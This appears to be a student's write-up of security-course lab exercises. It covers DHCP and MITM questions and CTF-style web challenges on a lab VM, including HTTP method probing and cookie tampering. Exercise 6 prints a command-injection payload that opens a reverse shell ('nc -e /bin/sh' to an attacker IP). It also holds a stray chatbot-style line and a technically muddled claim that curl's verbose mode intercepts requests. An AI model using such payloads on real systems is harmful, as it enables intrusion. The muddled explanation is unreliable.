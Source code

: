 
> [!exercise]+ Exercise 1 - DHCP Attack
> Another type of attack that was not included in the workshop is DHCP (dynamic host configuration protocol) based attacks. Do a bit of research into how DHCP works and about some DHCP attacks and answer the following questions.
> 1. What are the 4 packets (messages) that are communicated between the client seeking and IP address and the DHCP server?
> 2. Are the 4 messages Layer 2 unicast or broadcast (be careful not to confuse between Layer 3 broadcast, which is sending to an IP broadcast address like 10.0.2.255, as opposed to Layer 2 broadcast which is sent to MAC address FF:FF:FF:FF:FF:FF).
> 3. Therefore, in a switched network, which of the 4 messages in the DHCP negotiation would the attacker be able to observe?
> 4. Briefly explain what DHCP spoofing and DHCP starvation attacks are executed, and how the two can be used in combination. 
> 5. For an adversary looking to perform MITM, which DHCP configuration option(s) would you try to manipulate? 
> 6. Briefly explain how "DHCP **snooping**" configuration in a switch work to prevent DHCP **spoofing**?


> [!exercise]+ Exercise 2 - MITM Prevention
> 1. Briefly explain (1 or 2 sentences max) how HTTPS can defeat MITM via ARP cache poisoning.
> 2. In the same context, why did Chrome developers decided to display "Not Secure" on HTTP websites?
> 3. In the same context, what's the danger of ignoring a browser error message like this one and clicking on "Continue to this website"?
> 4. Briefly write an explanation that you might provide to your grandparent (or anyone who may not be IT savvy) why they should be careful when connecting to open WiFi hotspots like the ones at airports.



> [!exercise]+ Exercise 3 
> Go to `http://<Your Hacklab VM IP addr>:8081/method.php` to get the secret!
> 
> **Answer:**
> Initially, I tried visiting the site in my browser but only received a hint: `"Hm... you don't seem to be using the correct METHOD. Explore your available OPTIONS."` This made it clear that I should attempt an `OPTIONS` request via `curl`.
> 
> ```bash
> curl -X OPTIONS http://192.168.56.113:8081/method.php
> ```
> 
> This returned the flag:
> ```
> csf2021_{helper-evaluate-mammogram}
>```


> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]

Absolutely, you can use `curl` instead of Burp Suite for intercepting and modifying requests. Here's the revised explanation:

> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **My Process:**
> 
> Upon visiting the page, I noticed a form allowing me to check if a host is dead or alive by entering an IP address. Suspecting a possible vulnerability, I decided to investigate further.
> 
> I used `curl` to send a request to the page, providing a sample IP address. Then, I intercepted the request using `curl`'s verbose mode (`-v`) and redirected the output to a file for analysis:
> 
> ```bash
> curl -v -d "ip=8.8.8.8" http://<192.168.56.113>:8083/doa.php > request.txt
> ```
> 
> By examining the contents of `request.txt`, I discovered that the IP address was directly passed to a system command without proper sanitization, indicating a potential command injection vulnerability.
> 
> To confirm my suspicion, I injected a malicious command into the IP address field using `curl`:
> 
> ```
> curl -d "ip=127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234" http://<\Your Hacklab VM IP addr>:8083/doa.php
> ```
> 
> This command instructed the server to execute a reverse shell, connecting back to my local machine on port 1234. Upon executing the `curl` command, I successfully gained a reverse shell connection.
> 
> Once inside the reverse shell, I explored the filesystem to find more information. I examined the contents of `doa.php` to understand the functionality of the page and looked for any hints or clues.
> 
> Next, I used the `ls` command with the `-a` flag to list all files, including hidden ones. This revealed the presence of a hidden file named `.the_secret_file`.
> 
> Finally, I displayed the contents of the secret file using the `cat` command:
> 
> ```
> cat .the_secret_file
> ```
> 
> **Secret Revealed:**
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \
> \ er}                                     /
>  -----------------------------------------
>         \   ^__^
>          \  (oo)\_______
>             (__)\       )\/\
>                 ||----w |
>                 ||     ||
> ```
> 
> ![Pasted Image of the Exercise](ImageURL)
> 
> Remember to approach command injection vulnerabilities with caution and always ensure proper input validation and sanitization to prevent exploitation.


